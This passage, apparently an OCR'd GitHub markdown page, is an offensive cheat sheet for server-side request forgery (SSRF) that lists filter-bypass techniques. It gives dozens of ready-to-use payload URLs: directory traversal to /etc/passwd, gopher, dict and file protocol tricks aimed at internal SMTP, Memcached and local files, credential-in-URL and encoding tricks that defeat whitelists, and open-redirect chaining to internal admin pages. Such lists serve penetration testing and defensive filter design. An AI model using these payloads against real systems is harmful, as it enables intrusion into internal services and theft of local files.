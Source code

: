    - **Path normalization**
      - Add directory traversal sequences
      - Example: `http://allowed-domain.com/../../etc/passwd`
      - Example: `http://allowed-domain@127.0.0.1`
      - Example: `http://allowed-domain.com/redirect?url=http://127.0.0.1/admin`
    
    - **Protocol-based bypasses**
      - Use alternative protocols
      - Example: `https://127.0.0.1/admin`
      - Example: `ftp://127.0.0.1/`
      - Example: `gopher://127.0.0.1:25/` (for SMTP interaction)
      - Example: `file:///etc/passwd`
      - Example: `dict://internal-server:11211/stat` (for Memcached)
    
    - **Non-standard ports**
      - Target services on non-standard ports
      - Example: `http://127.0.0.1:8080/admin`
      - Example: `http://127.0.0.1:3306/` (MySQL)
      - Example: `http://127.0.0.1:22/` (SSH - timing attack)

  - **Bypassing whitelist-based filters**
    
    - **Subdomain-based bypasses**
      - Create subdomains of your domain that include the whitelisted domain
      - Example: `http://whitelisted-domain.com.attacker.com`
    
    - **Using credentials in URLs**
      - Example: `http://username@127.0.0.1` (where username is a whitelisted domain)
      - Example: `http://whitelisted-domain.com@127.0.0.1`
    
    - **URL parsing inconsistencies**
      - Example: `http://whitelisted-domain.com%252F@127.0.0.1`
      - Example: `http://whitelisted-domain.com%2523@127.0.0.1`
      - Example: `http://whitelisted-domain.com:@127.0.0.1`
      - Example: `http://127.0.0.1?whitelisted-domain.com`
      - Example: `http://127.0.0.1/folder/file.ext#whitelisted-domain.com`
    
    - **Exploiting parser logic**
      - Add extra `@` symbols
      - Example: `http://whitelisted-domain.com@@127.0.0.1`
      - Add backslashes
      - Example: `http://whitelisted-domain.com\\@127.0.0.1`
      - Mixed URL encoding
      - Example: `http://whitelisted-domain.com%25253F@127.0.0.1`
    
    - **Abusing redirects**
      - Use a domain that redirects to internal services
      - Example: `http://whitelisted-domain.com` (which redirects to 127.0.0.1)

  - **Bypassing SSRF via open redirects**
    
    - **Finding and exploiting open redirects**
      - Look for redirect parameters in whitelisted applications
      - Example parameters: `?url=`, `?redirect=`, `?next=`, `?return=`, `?returnTo=`, `?go=`
      - Example: `http://allowed-app.com/redirect?url=http://internal-app/admin`
    